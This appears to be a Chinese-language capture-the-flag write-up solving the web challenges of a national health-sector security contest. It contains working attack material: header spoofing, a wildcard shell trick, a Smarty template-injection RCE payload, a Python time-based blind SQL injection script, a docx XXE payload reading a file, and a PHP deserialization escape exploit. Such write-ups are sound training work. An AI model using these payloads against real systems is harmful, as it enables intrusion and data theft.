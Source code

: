

# 前言

比赛是第二届全国卫生健康行业网络安全技能大赛，赛后借了个账号复现了一下Web题，整体偏简单叭，做到CMS那题的时候环境关了。

# 签到

f12，拿到flag。

# easy_web1

f12发现`There_is_no_flag_here.php`，再f12提示本地访问：

```
Client-ip:127.0.0.1
```

即可得到flag。



# easy_web2

ctfshow上的原题，直接打了：

```php
?shell=/???/????64 /????????
```

然后base64解码即可。



# super_hacker

```
 Via 头需要有值；X-Forwarded-For 存在smarty的模板注入
```

也简单，Via头给个值，然后发现页面地下存在ip的回显，经过测试时x-forwarded-for的值。存在smarty的模板注入，似乎过滤了一些东西，经过一系列fuzz成功rce：

```php
{assert('assert($_GET[0])')}
```



然后拿flag即可。



# 病例管理系统

sql注入进后台，写个python跑一下：

```python
"""
Author:feng
"""
import requests
from time import *
url='http://eci-2zebvabc2wy8k9x8jvue.cloudeci1.ichunqiu.com:80'
flag=''
for i in range(1,10000000):
    min=32
    max=128
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            break
        payload="||if(ascii(substr(password,{},1))<{},sleep(0.5),1)#".format(i,j)
        data={
            'username':'\\',
            'password':payload
        }
        try:
            r=requests.post(url=url,data=data,timeout=0.4)
            #print(r.text)
            min = j
        except:
            max = j
        sleep(0.2)

"admin"
"2447daf21339563964a78b2164574af4"
```





后台有个文件上传只能传docx，联想到docx的xxe。根据提示：

```
注意模板的docx文件是怎么得到title的
```

页面中会有这个：

```
<strong><a href='uploads/.'>标题：None</a></strong></br></br><strong><a href='uploads/..'>标题：None</a></strong></br></br><strong><a href='uploads/moban.docx'>标题：moban</a>
```

moban.docx显示了标题是moban，自己上传docx的话显示的是None。



经过fuzz，发现标题取自这里：

![img](D:\this_is_feng\github\CTF\Web\picture\pic33.png)



再经过测试，发现这个title是在core.xml。

![img](D:\this_is_feng\github\CTF\Web\picture\pic32.png)



联想到docx的xxe：

https://blog.51cto.com/0x007/1630640

后端会解析这个xml，然后得到这个`<dc:title>`的内容，因此xxe读/flag。

直接在最前面加上：

```
<!DOCTYPE document [<!ENTITY xxe SYSTEM "file:///flag">]>
```

然后`<db:title>`的内容改成`&xxe;`

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE document [<!ENTITY xxe SYSTEM "file:///flag">]>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:title>&xxe;</dc:title><dc:subject></dc:subject><dc:creator>1</dc:creator><cp:keywords></cp:keywords><dc:description></dc:description><cp:lastModifiedBy>1</cp:lastModifiedBy><cp:revision>1</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2021-07-11T05:56:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2021-07-11T05:56:00Z</dcterms:modified></cp:coreProperties>
```



上传即可得到flag。





# medical

```
反序列化字符串逃逸；static目录下面有源码泄露；php的反序列化
```

static目录下有www.zip，下载下来发现是个MVC。

大致审计一下，发现反序列化入口点在`Service.class.php`：

```php
    public function index(){
        $serialize_data=serialize($this->post);
        if(santi($serialize_data)){
            $data = unserialize(preg_replace('/s:/', 'S:', $serialize_data));
            $this->view->user_view($data['Location']);
        }else{
            $this->view->user_view("Bad strings.");
        }
    }
```

反序列化得到的`$data['Location']`被`user_view()`函数处理，跟进一下就会发现是被当成字符串了，所以跟进到一个`__toString`。全局查找一下发现了`Request.class.php`的可以用：

```php
    public function __toString(){
        return $this->hhhhh->b;
    }
```

这里的`$this->hhhhh`可控，因此还可以进入一个`__get`，找到了`Index.class.php`：

```php
    public function __get($name){
        return file_get_contents('/flag');
    }
```

即可得到flag。至此反序列化的链理清楚了，想办法怎么反序列化。

```php
        $serialize_data=serialize($this->post);
        if(santi($serialize_data)){
            $data = unserialize(preg_replace('/s:/', 'S:', $serialize_data));
            $this->view->user_view($data['Location']);
```

存在一个替换的的过程，联想到用十六进制可以进行字符串的逃逸，稍微构造一下即可，这里不细说了，也不难，POC：

```php
<?php
class Request
{
    public $hhhhh;
    public function __construct(){
        $this->hhhhh = new Index();
    }
}

class Index
{

}
echo serialize(new Request());
```



```
a=\31\31\31\31\31\31\31\31\31\31\31&Location=;s:8:"Location";O:7:"Request":1:{s:5:"hhhhh";O:5:"Index":0:{}}}
```



![pic31](D:\this_is_feng\github\CTF\Web\picture\pic31.png)



# easy_cms

当时没来得及看，去复现的时候题目环境已经关了。















